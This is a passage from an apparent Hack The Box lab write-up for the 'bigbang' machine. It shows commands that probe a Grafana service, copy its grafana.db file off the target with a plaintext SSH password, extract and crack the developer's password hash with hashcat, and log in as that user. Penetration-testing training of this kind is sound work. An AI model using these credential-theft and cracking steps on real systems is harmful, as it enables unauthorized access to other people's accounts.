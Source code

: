 #### Grafana (Port 3000)

```bash
$ curl -v localhost:3000
< HTTP/1.1 302 Found
< Location: /login
```

```bash
$ curl localhost:3000/login
<!DOCTYPE html> ... <title>Grafana</title> ...
```

Data located in `/opt/data/grafana.db`. Developer has access.

### Shell

#### Recover Grafana Password Hash

Copied database out:

```bash
$ sshpass -p 'quantumphysics' scp developer@bigbang.htb:/opt/data/grafana.db .
```

Extracted user table:

```sql
select * from user;
```

Reveals user `developer` with:

* login: developer
* hash: `7e8018a4...c59db93577b12201c0151256375d6f883f1b8d960`
* salt: `4umebBJucv`

Converted to hashcat format using `grafana2hashcat.py`.

Ran hashcat:

```bash
$ hashcat -m 10900 grafanahashes rockyou.txt
```

Discovered password:
`bigbang`

#### Access Developer Account

```bash
$ su - developer
Password: bigbang
developer@bigbang:~$
```

Also via SSH:

```bash
$ sshpass -p 'bigbang' ssh developer@bigbang.htb
developer@bigbang:~$
```
